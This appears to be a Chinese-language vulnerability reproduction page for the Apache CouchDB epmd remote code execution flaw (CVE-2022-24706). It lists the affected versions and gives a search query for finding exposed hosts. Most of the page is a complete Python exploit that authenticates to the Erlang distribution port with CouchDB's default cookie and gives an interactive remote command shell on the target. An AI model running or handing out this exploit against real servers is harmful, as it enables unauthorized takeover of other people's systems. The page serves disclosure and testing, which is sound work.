

# Apache CouchDB epmd 远程命令执行漏洞 CVE-2022-24706

## 漏洞描述

Apache CouchDB 是一个开源的无缝多主同步数据库，使用直观的HTTP/JSON API，并为可靠性而设计。

4月26日，Apache发布安全公告，公开了Apache CouchDB中的一个远程代码执行漏洞（CVE-2022-24706）。在3.2.2 版本之前的 Apache CouchDB 中，可以在不进行身份验证的情况下访问不正确的默认安装并获得管理员权限

## 漏洞影响

<a-checkbox checked>CouchDB <= 3.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>port="4369" && "couchdb"</a-checkbox></br>

## 漏洞复现

主页面， 默认端口为 5984


使用POC验证



## 验证POC

```java
# Exploit Title: Apache CouchDB 3.2.1 - Remote Code Execution (RCE)
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://couchdb.apache.org/
# Version: 3.2.1 and below
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name couchdb at"
# CVE: CVE-2022-24706
# References:
#  https://habr.com/ru/post/661195/
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = ""
EPMD_PORT = 4369 # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x07\x00\x03\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

while not TARGET:
    TARGET = input("Enter target host:\n> ")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)                    # Receive "ok" message
challenge = s.recv(1024)     # Receive "challenge" message
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data.decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data.decode(),end = '')
        data_size -= 1024
            
```